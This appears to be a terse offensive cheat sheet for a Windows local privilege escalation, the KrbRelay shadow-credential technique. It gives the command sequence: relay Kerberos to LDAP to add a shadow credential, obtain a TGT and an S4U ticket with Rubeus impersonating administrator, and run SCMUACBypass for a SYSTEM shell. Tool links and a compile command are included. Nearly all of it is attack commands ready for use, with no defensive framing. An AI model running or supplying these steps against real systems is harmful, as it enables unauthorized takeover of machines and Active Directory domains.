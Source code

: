 # Coercion Attack

## Prerequisites
```
LDAP Signing should not to be enforced
```

### Adding a Shadow Credential to local machine
```
KrbRelay.exe -spn ldap/<domainControllerFqdn> -clsid 90f18417-f0f1-484e-9d3c-59dceee5dbd8 -shadowcred
```

### Get TGT for local admin
```
Rubeus.exe asktgt /user:<computer$> /certificate:<certificate> /password:<password> /enctype:AES256 /nowrap
```

### 
```
Rubeus.exe s4u /self /user:<computer$> /impersonateuser:administrator /altservice:host/<computer> /ptt /ticket:<base64Ticker>
```

### Get SYSTEM cmd shell
```
SCMUACBypass.exe
```

## Tools / References
https://github.com/cube0x0/KrbRelay
https://github.com/Flangvik/SharpCollection/blob/master/NetFramework_4.0_Any/Rubeus.exe
https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSharpPack/master/PowerSharpBinaries/Invoke-Rubeus.ps1
https://gist.github.com/tyranid/c24cfd1bd141d14d4925043ee7e03c82 (compile using: cl -DUNICODE SCMUACBypass.cpp advapi32.lib)
https://github.com/eladshamir/Whisker
https://icyguider.github.io/2022/05/19/NoFix-LPE-Using-KrbRelay-With-Shadow-Credentials.html

